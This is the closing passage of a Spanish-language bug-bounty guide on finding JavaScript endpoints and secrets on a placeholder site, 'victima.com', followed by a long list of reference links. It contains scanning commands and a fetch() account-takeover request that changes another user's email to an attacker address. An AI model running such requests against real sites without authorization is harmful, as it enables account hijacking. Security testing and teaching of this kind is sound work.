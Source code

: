 #### LinkFinder por dominio/archivo

```bash
python3 linkfinder.py -i https://victima.com -d -o results.html
python3 linkfinder.py -i https://victima.com/app.js -o cli
```

#### Nuclei para exposiciones en JS

```bash
nuclei -l js_vivos.txt -t exposures/configs/ -t exposures/tokens/ -severity medium,high,critical -o js_exposures.txt
```

#### DevTools: Overrides controlados

- Sources → Overrides → Enable, guarda app.js y modifica temporalmente validaciones para observar respuesta real del servidor. Si el servidor responde con éxito a una acción inválida, hay vulnerabilidad server-side.

#### Ejemplo: ATO por endpoint oculto (fetch en navegador)

```javascript
fetch("https://victima.com/api/v2/users/update-email", {
  method: "POST",
  headers: {"Content-Type": "application/json", "Authorization": "Bearer <token_estandar>"},
  body: JSON.stringify({ userId: "12345", newEmail: "pwn@atacante.com" })
}).then(r => r.status).then(console.log);
```

#### Nota sobre CSTI y PDF.js

- CSTI en frameworks (Angular/Vue) requiere confirmar vector reflectivo/almacenado y ejecución real.
- PDF.js CVE-2024-4367: prueba solo en entorno controlado; validar versiones vulnerables y que la carga maliciosa alcance el intérprete. No ejecutar contra producción sin permiso.

Con esta guía, puedes pasar de la recolección exhaustiva a la explotación validada con evidencias sólidas y un flujo de reporte profesional, maximizando hallazgos reales y minimizando falsos positivos en victima.com, con PoC claras y automatización eficiente para escalar la cobertura sin perder rigor.

[^1]: [https://gitnation.com/contents/the-state-of-javascript-security-in-2024](https://gitnation.com/contents/the-state-of-javascript-security-in-2024)
    
[^2]: [https://jscrambler.com/blog/the-most-effective-way-to-protect-client-side-javascript-applications](https://jscrambler.com/blog/the-most-effective-way-to-protect-client-side-javascript-applications)
    
[^3]: [https://www.humansecurity.com/learn/blog/client-side-battle-against-javascript-attacks/](https://www.humansecurity.com/learn/blog/client-side-battle-against-javascript-attacks/)
    
[^4]: [https://www.freecodecamp.org/news/how-to-secure-javascript-applications/](https://www.freecodecamp.org/news/how-to-secure-javascript-applications/)
    
[^5]: [https://www.contrastsecurity.com/developer/learn/client-side-injection](https://www.contrastsecurity.com/developer/learn/client-side-injection)
    
[^6]: [https://systemweakness.com/finding-endpoints-and-secrets-in-javascript-files-for-web-application-security-846462fd2a69](https://systemweakness.com/finding-endpoints-and-secrets-in-javascript-files-for-web-application-security-846462fd2a69)
    
[^7]: [https://www.geeksforgeeks.org/linux-unix/linkfinder-script-to-search-endpoints-in-javascript-files/](https://www.geeksforgeeks.org/linux-unix/linkfinder-script-to-search-endpoints-in-javascript-files/)
    
[^8]: [https://github.com/channyein1337/jsleak](https://github.com/channyein1337/jsleak)
    
[^9]: [https://offsec.tools/tool/jsleak](https://offsec.tools/tool/jsleak)
    
[^10]: [https://github.com/0xAb1d/JSLeakRecon](https://github.com/0xAb1d/JSLeakRecon)
    
[^11]: [https://www.wiz.io/blog/nuclei-signature-verification-bypass](https://www.wiz.io/blog/nuclei-signature-verification-bypass)
    
[^12]: https://orca.security/resources/blog/using-nuclei-templates-for-vulnerability-scanning/
    
[^13]: [https://www.pbrumby.com/2024/12/27/using-chrome-local-overrides-to-maintain-changes-after-refreshing-the-browser/](https://www.pbrumby.com/2024/12/27/using-chrome-local-overrides-to-maintain-changes-after-refreshing-the-browser/)
    
[^14]: [https://www.debugbear.com/blog/devtools-local-overrides](https://www.debugbear.com/blog/devtools-local-overrides)
    
[^15]: [https://www.trysmudford.com/blog/chrome-local-overrides/](https://www.trysmudford.com/blog/chrome-local-overrides/)
    
[^16]: [https://www.wiz.io/vulnerability-database/cve/cve-2024-4367](https://www.wiz.io/vulnerability-database/cve/cve-2024-4367)
    
[^17]: [https://writeups.io/summaries/detailed-technical-analysis-of-cve-2024-4367-arbitrary-js-execution-in-pdfjs/](https://writeups.io/summaries/detailed-technical-analysis-of-cve-2024-4367-arbitrary-js-execution-in-pdfjs/)
    
[^18]: [https://www.geeksforgeeks.org/blogs/top-common-frontend-security-attacks/](https://www.geeksforgeeks.org/blogs/top-common-frontend-security-attacks/)
    
[^19]: [https://www.reflectiz.com/blog/javascript-security-2023/](https://www.reflectiz.com/blog/javascript-security-2023/)
    
[^20]: [https://dev.to/chaudharidevam/7-frontend-security-vulnerabilities-you-should-know-and-fix-22hi](https://dev.to/chaudharidevam/7-frontend-security-vulnerabilities-you-should-know-and-fix-22hi)
    
[^21]: [https://snyk.io/articles/javascript-security/](https://snyk.io/articles/javascript-security/)
    
[^22]: [https://www.ibm.com/docs/pt/SSB2MG_4.6.1/com.ibm.ips.doc/concepts/wap_client_side_attacks.htm](https://www.ibm.com/docs/pt/SSB2MG_4.6.1/com.ibm.ips.doc/concepts/wap_client_side_attacks.htm)
    
[^23]: [https://www.opswat.com/blog/comprehensive-analysis-of-cve-2024-6778-race-condition-vulnerability-in-chrome-devtools](https://www.opswat.com/blog/comprehensive-analysis-of-cve-2024-6778-race-condition-vulnerability-in-chrome-devtools)
    
[^24]: [https://blog.pixelfreestudio.com/learning-from-security-vulnerabilities-in-frontend-code/](https://blog.pixelfreestudio.com/learning-from-security-vulnerabilities-in-frontend-code/)
    

[^25]: [https://owasp.org/www-project-top-10-client-side-security-risks/](https://owasp.org/www-project-top-10-client-side-security-risks/)
[^26]: [https://dl.acm.org/doi/10.1145/3656394](https://dl.acm.org/doi/10.1145/3656394)
[^27]: [https://blog.bitsrc.io/top-7-common-frontend-security-attacks-2e2b56dc2bcc](https://blog.bitsrc.io/top-7-common-frontend-security-attacks-2e2b56dc2bcc)
[^28]: [https://www.geeksforgeeks.org/ethical-hacking/types-of-client-side-attacks/](https://www.geeksforgeeks.org/ethical-hacking/types-of-client-side-attacks/)
[^29]: [https://javascript.plainenglish.io/analysis-of-vulnerabilities-identified-in-javascript-between-2022-2025-f8553d010467](https://javascript.plainenglish.io/analysis-of-vulnerabilities-identified-in-javascript-between-2022-2025-f8553d010467)
[^30]: [https://www.recordedfuture.com/threat-intelligence-101/vulnerability-management-threat-hunting/front-end-security](https://www.recordedfuture.com/threat-intelligence-101/vulnerability-management-threat-hunting/front-end-security)
[^31]: [https://tryhoverify.com/blog/chrome-devtools-javascript-debugging-guide/](https://tryhoverify.com/blog/chrome-devtools-javascript-debugging-guide/)
[^32]: [https://bugbustersunited.com/unraveling-web-complexity-with-linkfinder/](https://bugbustersunited.com/unraveling-web-complexity-with-linkfinder/)
[^33]: [https://learn.microsoft.com/en-us/microsoft-edge/devtools/javascript/](https://learn.microsoft.com/en-us/microsoft-edge/devtools/javascript/)
[^34]: [https://developer.chrome.com/docs/devtools/javascript](https://developer.chrome.com/docs/devtools/javascript)
[^35]: [https://github.com/GerbenJavado/LinkFinder](https://github.com/GerbenJavado/LinkFinder)
[^36]: [https://www.linkedin.com/posts/shaikarifali_jsleak-is-a-tool-to-find-secret-paths-or-activity-7075840269396443136-UHRB](https://www.linkedin.com/posts/shaikarifali_jsleak-is-a-tool-to-find-secret-paths-or-activity-7075840269396443136-UHRB)
[^37]: [https://developer.chrome.com/docs/devtools/javascript/reference](https://developer.chrome.com/docs/devtools/javascript/reference)
[^38]: [https://www.yeswehack.com/learn-bug-bounty/discover-map-hidden-endpoints-parameters](https://www.yeswehack.com/learn-bug-bounty/discover-map-hidden-endpoints-parameters)
[^39]: [https://www.jit.io/resources/appsec-tools/the-developers-guide-to-using-gitleaks-to-detect-hardcoded-secrets](https://www.jit.io/resources/appsec-tools/the-developers-guide-to-using-gitleaks-to-detect-hardcoded-secrets)
[^40]: [https://developer.mozilla.org/en-US/docs/Learn_web_development/Core/Scripting/Debugging_JavaScript](https://developer.mozilla.org/en-US/docs/Learn_web_development/Core/Scripting/Debugging_JavaScript)
[^41]: [https://cybersectools.com/tools/linkfinder](https://cybersectools.com/tools/linkfinder)
[^42]: [https://gitleaks.io](https://gitleaks.io)
[^43]: [https://dev.to/hanzla-baig/debugging-javascript-like-a-pro-mastering-browser-devtools-nodejs-85g](https://dev.to/hanzla-baig/debugging-javascript-like-a-pro-mastering-browser-devtools-nodejs-85g)
[^44]: [https://infosecwriteups.com/js-link-finder-burp-suite-extension-guide-e4809a6da268](https://infosecwriteups.com/js-link-finder-burp-suite-extension-guide-e4809a6da268)
[^45]: [https://www.aikido.dev/blog/top-secret-scanning-tools](https://www.aikido.dev/blog/top-secret-scanning-tools)
[^46]: [https://www.qodo.ai/blog/best-static-code-analysis-tools/](https://www.qodo.ai/blog/best-static-code-analysis-tools/)
[^47]: [https://www.softwaretestingmagazine.com/tools/open-source-javascript-code-analysis/](https://www.softwaretestingmagazine.com/tools/open-source-javascript-code-analysis/)
[^48]: [https://armur.ai/blogs/posts/top_20_static_analysis_tools/](https://armur.ai/blogs/posts/top_20_static_analysis_tools/)
[^49]: [https://projectdiscovery.io/blog/nuclei-templates-v9-8-0-a-leap-forward-in-network-security-scanning](https://projectdiscovery.io/blog/nuclei-templates-v9-8-0-a-leap-forward-in-network-security-scanning)
[^50]: [https://developer.chrome.com/docs/devtools/overrides](https://developer.chrome.com/docs/devtools/overrides)
[^51]: [https://snappify.com/blog/code-analysis-tools](https://snappify.com/blog/code-analysis-tools)
[^52]: [https://github.com/projectdiscovery/nuclei-templates](https://github.com/projectdiscovery/nuclei-templates)
[^53]: [https://learn.microsoft.com/en-us/microsoft-edge/devtools/javascript/overrides](https://learn.microsoft.com/en-us/microsoft-edge/devtools/javascript/overrides)
[^54]: [https://spectralops.io/blog/top-10-static-application-security-testing-sast-tools-in-2025/](https://spectralops.io/blog/top-10-static-application-security-testing-sast-tools-in-2025/)
[^55]: [https://github.com/projectdiscovery/nuclei-templates/releases](https://github.com/projectdiscovery/nuclei-templates/releases)
[^56]: [https://javascript.plainenglish.io/chromes-best-debugging-feature-301de685a616](https://javascript.plainenglish.io/chromes-best-debugging-feature-301de685a616)
[^57]: [https://daily.dev/es/blog/6-best-elixir-static-analysis-tools-2024](https://daily.dev/es/blog/6-best-elixir-static-analysis-tools-2024)
[^58]: [https://projectdiscovery.io/blog/nuclei-templates-monthly-may-2025](https://projectdiscovery.io/blog/nuclei-templates-monthly-may-2025)
[^59]: [https://www.youtube.com/watch?v=PT6xsr_AUQ0](https://www.youtube.com/watch?v=PT6xsr_AUQ0)
[^60]: [https://www.reddit.com/r/devops/comments/1fd2twc/what_are_the_best_static_analysis_tools_for/](https://www.reddit.com/r/devops/comments/1fd2twc/what_are_the_best_static_analysis_tools_for/)